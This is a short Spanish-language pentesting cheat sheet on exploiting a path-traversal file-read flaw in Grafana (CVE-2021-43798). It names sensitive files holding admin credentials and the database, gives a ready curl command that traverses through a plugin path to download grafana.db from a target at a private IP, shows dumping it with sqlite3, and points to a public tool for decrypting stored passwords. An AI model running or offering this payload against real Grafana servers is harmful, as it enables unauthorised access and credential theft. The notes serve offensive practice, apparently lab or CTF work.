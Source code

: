 Si encontramos una versión de grafana con LFI:
### Archivos importantes
grafana.ini puede contener info importante como el user y pass del admin

    /etc/grafana/grafana.ini

también tenemos la db:

    /var/lib/grafana/grafana.db

# bajar la db

    curl --path-as-is http://192.168.247.181:3000/public/plugins/grafana-azure-monitor-datasource/../../../../../../../../../../../../../var/lib/grafana/grafana.db -O grafana.db


# dumpear la db con sqlite3.
    sqlite3 file.db

luego:

    .dump


# Crack pass
Si encontramos un basicauthpassword podemos romperlo con

    https://github.com/jas502n/Grafana-CVE-2021-43798

si nos da un error por falta de librerías:

    go mod tidy
